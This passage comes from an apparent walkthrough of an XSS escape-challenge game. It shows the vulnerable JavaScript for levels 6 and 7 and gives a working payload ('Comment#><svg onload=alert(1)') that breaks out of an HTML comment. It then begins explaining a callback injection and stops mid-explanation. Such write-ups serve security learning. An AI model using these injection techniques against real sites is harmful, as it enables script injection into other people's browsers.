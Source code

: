 It will be rendered as:

![](/images/octopress/xsslevel05.png)

# Level 6:
```lang-javascript line-numbers 
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```

The trick is to review all the functions in the DOM that begin with "create" and that dont escape characters. The shortest one is to use "createComment". For example **Comment#&lt;foo&gt;** will create the following code:

```lang-javascript line-numbers 
<!--<foo>-->
```

From there, its easy to go to:

```lang-javascript line-numbers 
Comment#><svg onload=alert(1)
```

That will render:

```lang-javascript line-numbers 
<!--><svg onload=alert(1)-->
```

# Level 7:
```lang-javascript line-numbers 
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```

We will enclose the opening bracket and the json fixed contents with single quotes to transform it into a string and then we will be able to inject our js payload:
